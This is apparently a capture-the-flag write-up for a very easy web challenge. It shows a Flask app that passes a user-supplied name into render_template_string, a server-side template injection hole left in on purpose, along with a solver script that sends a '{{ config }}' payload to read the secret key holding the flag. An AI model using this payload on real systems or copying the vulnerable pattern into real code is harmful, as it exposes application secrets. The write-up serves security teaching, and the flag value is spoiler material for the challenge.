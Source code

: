 # [__BoneChewerCon__](#bonechewercon)

<p align='center'>  
  <img src='assets/preview.png'>
</p>

### Description:
* We need to infiltrate the BoneChewerCon event to understand what the devil has been up to. Can you find the key to bring this event down once and for all?

### Objective:
* SSTI

### Difficulty:
* `very easy`

### Flag:
* `HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}`

### Challenge:

Looking at the source code, we see that the flag is stored in the flask configuration as the signing key, also the `name` we register as is passed to `render_template_string`. This is suspectible to SSTI, using `{{ config }}` we'll be able to enumerate the flask configuration items and retrieve the flag.

```python
app.config['SECRET_KEY'] = open('flag').read()

def reservation(name):
	HTML = '{{% extends "index.html" %}}{{% block content %}}'
	HTML += 'Thank you for registering, {name}</br>'
	HTML += '{{% endblock %}}'
	return HTML.format(name=name)

@app.route('/')
def index():
	name = request.args.get('name', '')
	if name:
		return render_template_string(reservation(name))
	return render_template('index.html')
```

### Solver:
```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.get(HOST, params={'name': '{{ config }}'})
print(r.content)
```
